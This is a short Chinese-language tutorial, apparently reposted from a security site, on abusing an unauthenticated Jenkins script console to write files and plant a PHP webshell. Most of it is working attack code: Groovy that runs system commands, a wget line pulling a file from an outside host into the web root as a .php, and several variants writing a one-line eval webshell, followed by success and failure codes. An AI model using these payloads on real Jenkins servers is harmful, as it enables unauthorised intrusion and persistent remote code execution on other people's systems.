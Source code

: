 

**Jenkins未授权访问写shell**



j**enskins是java web项目,我们用java的File类写文件**



> new File("c://temp//secpulse.txt").write("""  

> 1  

> 2  

> 3  

> """);



新建一个内容为1,2,3(每一行)的1.txt到c盘的temp文件夹,运行如下命令**println “powershell dir c:\\temp”.execute().text**如果写成功,那么secpulse.txt就会在返回结果中!



**wget写webshell**



> 1\. println "wget http://shell.secpulse.com/data/t.txt -o /var/www/html/secpulse.php".execute().text  

> 2\. new File("/var/www/html/secpulse.php").write('<?php @eval($\_POST\[s3cpu1se\]);?>');  

> 3\. def webshell = '<?php @eval($\_POST\[s3cpu1se\]);?>'  

> new File("/var/www/html/secpulse.php").write("$webshell");  

> 4\. def execute(cmd) {  

> def proc = cmd.execute()  

> proc.waitFor()  

> }  

> execute( \[ 'bash', '-c', 'echo -n "<?php @eval($" > /usr/local/nginx\_1119/html/secpulse.php' \] )  

> execute( \[ 'bash', '-c', 'echo "\_POST\[s3cpu1se\]);?>" >> /usr/local/nginx\_1119/html/secpulse.php' \] )  

> //参数-n 不要在最后自动换行



[![jenkins-5](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvamVua2lucy01LnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/jenkins-5.png)  

Result: 0 表示成功写入  

Result: 1 表示目录不存在或者权限不足 写入失败  

Result: 2 表示构造有异常 写入失败



